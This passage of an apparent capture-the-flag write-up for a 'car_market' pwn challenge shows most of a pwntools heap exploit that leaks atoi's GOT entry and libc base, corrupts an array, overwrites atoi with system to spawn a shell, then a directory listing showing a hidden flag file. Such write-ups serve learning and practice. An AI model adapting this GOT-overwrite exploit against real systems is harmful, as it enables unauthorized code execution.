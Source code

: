 ```python exp_car.py
    data   = ["comment", "A"*33]
    sel_car_cust(16, zip(choice, data))   
    
    # add comment and overwrite customer pointer, change it to atoi@got.plt
    log.info("modifying car 15 struct (for leaking got)...")
    r.sendlineafter(">\n", "4") # add customer
    r.sendlineafter(">\n", "3") # add comment
    r.sendlineafter(": \n", p64(0x1111) + p64(elf.got['atoi']))
    r.sendlineafter(">\n", "4") # exit customer menu
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # leak atoi's got
    log.info("leaking atoi's got & libc base...")
    leak_got(15)
    system = libc.symbols['system']
    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system))

    # overwrite customer pointer to heap_base+0x10
    log.info("modifying car 15 struct (for corrupting car array)...")
    choice = [3]
    data   = [p64(0x1111) + p64(heap_base+0x10)]
    sel_car_cust(16, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu

    # free & reallocate heap_base+0x10 , now we can control the car array 
    # after we control the car array, overite car[14] and make it point to atoi's got
    log.info("modifying car array...")
    choice = [3]
    data   = ["A"*0x20+p64(elf.got['atoi'])]
    sel_car_cust(15, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # overwrite atoi's got
    log.info("overwriting atoi's got...")
    r.sendlineafter(">\n", "4") # select car
    r.sendlineafter("index\n", "14") # input index
    r.sendlineafter(">\n", "2") # set model (atoi's got)
    r.sendlineafter("model\n", p64(system))
    r.sendline("sh\x00")

    log.success("get shell !")
    r.interactive()

```
  
After I finished the exploit, I found it once again, the exploit has timeout due to the crappy internet connection. So I upload the exploit to trello and ask **freetsubasa** if she can send the payload for me. And then she told me that **she had the shell spawned, but she can't find the flag.** What ?  
```
$ ls -la
total 40
drwxr-x--- 2 root marketpwn  4096 Sep  8 10:02 .
drwxr-xr-x 3 root root       4096 Sep  8 09:51 ..
lrwxrwxrwx 1 root marketpwn     9 Sep  8 09:59 .bash_history -> /dev/null
-rw-r--r-- 1 root marketpwn   220 Sep  8 09:51 .bash_logout
-rw-r--r-- 1 root marketpwn  3771 Sep  8 09:51 .bashrc
-rwxr-xr-x 1 root marketpwn 10504 Sep  8 09:56 car_market
-r--r----- 1 root marketpwn    39 Sep  8 09:57 ._flag
-rw-r--r-- 1 root marketpwn   655 Sep  8 09:51 .profile
-rwxr-xr-x 1 root marketpwn   104 Sep  8 09:56 wrapper.sh
```